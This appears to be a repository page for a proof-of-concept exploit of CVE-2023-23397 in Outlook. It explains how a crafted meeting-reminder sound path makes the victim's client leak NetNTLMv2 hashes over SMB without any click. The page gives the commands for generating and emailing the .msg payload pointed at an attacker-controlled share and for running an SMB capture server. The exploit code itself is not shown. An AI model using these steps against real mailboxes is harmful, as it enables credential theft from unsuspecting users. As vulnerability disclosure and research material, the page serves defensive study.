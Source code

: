 # CVE-2023-23397

Simple PoC of the CVE-2023-23397 vulnerability with the payload sent by email.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Trackflaw](https://github.com/Trackflaw) |
| Url      | [https://github.com/Trackflaw/CVE-2023-23397](https://github.com/Trackflaw/CVE-2023-23397)                                               |
| Stars    | 69                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2023-23397

</details>

## Readme

# CVE-2023-23397

Simple and dirty PoC of the CVE-2023-23397 vulnerability impacting the Outlook thick client. 

## Description

Outlook suffers from a lack of control over the user input that allows to configure the sound of a meeting and appointment reminder. Indeed, an attacker is able to force a victim to make a connection to its server without any manipulation from the user (zero click vulnerability).

An attacker exploiting this vulnerability retrieves a NetNTLMv2 digest based on the password of the trapped user through an SMB request. The request is triggered as soon as the mail arrives in the inbox.

## What does the poc do?

1. Generated `.msg` payload.
2. Send it by email with custom SMTP server.

## Usage

In one session :

```python
python CVE-2023-23397.py

usage: CVE-2023-23397.py [-h] -p PATH
CVE-2023-23397.py: error: the following arguments are required: -p/--path

python CVE-2023-23397.py --path '\\yourip\'
```

In a second session (`smbserver` or `responder` as you want).

```
smbserver.py -smb2support SHARE .
```

## Demo (manual poc)

![poc](poc.gif)

## Explanatory video (french speaking)

[![RÉCUPÉRER des mots de passe avec Microsoft OUTLOOK #CVE-2023-23397](https://img.youtube.com/vi/6bhJPwFgs8Q/maxresdefault.jpg)](https://youtube.com/shorts/6bhJPwFgs8Q)

## Original article

https://www.mdsec.co.uk/2023/03/exploiting-cve-2023-23397-microsoft-outlook-elevation-of-privilege-vulnerability/



## Get the content

```
git clone https://github.com/Trackflaw/CVE-2023-23397
cd CVE-2023-23397
```

{% embed url="https://github.com/Trackflaw/CVE-2023-23397" %}

<figure><img src="https://avatars.githubusercontent.com/u/78696986?v=4" alt=""><figcaption><p>Trackflaw</p></figcaption></figure>
